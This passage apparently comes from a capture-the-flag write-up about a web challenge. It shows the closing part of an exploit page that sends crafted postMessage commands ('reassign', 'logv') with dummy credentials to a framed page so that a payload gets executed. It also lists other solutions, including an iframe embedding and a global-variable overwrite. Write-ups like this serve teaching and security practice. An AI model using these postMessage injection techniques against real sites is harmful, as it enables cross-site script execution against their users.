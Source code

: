 ``` html
      const credentials = {
        username: 'a',
        password: 'a'
      }
      win.frames[1].postMessage({
        cmd: 'reassign',
        message:{
          a: 's',
          b: 'u'
        },
        credentials
      }, '*')

      win.frames[1].postMessage({
        cmd: 'reassign',
        message:{
          a: 'Z',
          b: 'x+1'
        },
        credentials
      }, '*')

      win.frames[1].postMessage({
        cmd: 'logv',
        message: 'Z',
        credentials
      }, '*')
    }, 3000)

  </script>
</body>
</html>

```

## Other solutions

My method was to open a new window to post a message, but you can also embed yourself as an iframe and let htmledit.php embed it. In this case, you can also use top.postMessage to send messages.

Embedding yourself in another webpage is something I often forget.

Another unexpected solution is based on this piece of code:

``` js
case "log": {
  log("[log]: ", e.data.message.text, type=e.data.message.type);
  break;
}
```

The key point here is `type=e.data.message.type`, which sets a global variable called `type`. Therefore, you can pass in any payload through this and then call `logv`. This eliminates the need to handle the payload in the `a` tag.
